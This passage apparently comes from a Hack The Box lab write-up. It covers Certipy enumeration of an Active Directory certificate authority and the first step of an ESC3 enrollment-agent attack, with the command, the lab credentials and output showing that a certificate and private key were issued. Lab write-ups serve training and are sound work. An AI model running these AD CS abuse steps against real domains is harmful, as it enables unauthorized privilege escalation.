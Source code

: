 ```
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250721155537_Certipy.txt'
[*] Wrote text output to '20250721155537_Certipy.txt'
[*] Saving JSON output to '20250721155537_Certipy.json'
[*] Wrote JSON output to '20250721155537_Certipy.json'

```
![](images/Pasted%20image%2020250721155609.png)
It gives us the hint to `ESC3` case, let's check how to exploit it step by step
```
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template
```
Please follow this wiki link to exploit.

**Step 1: Obtain an Enrollment Agent certificate**
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```
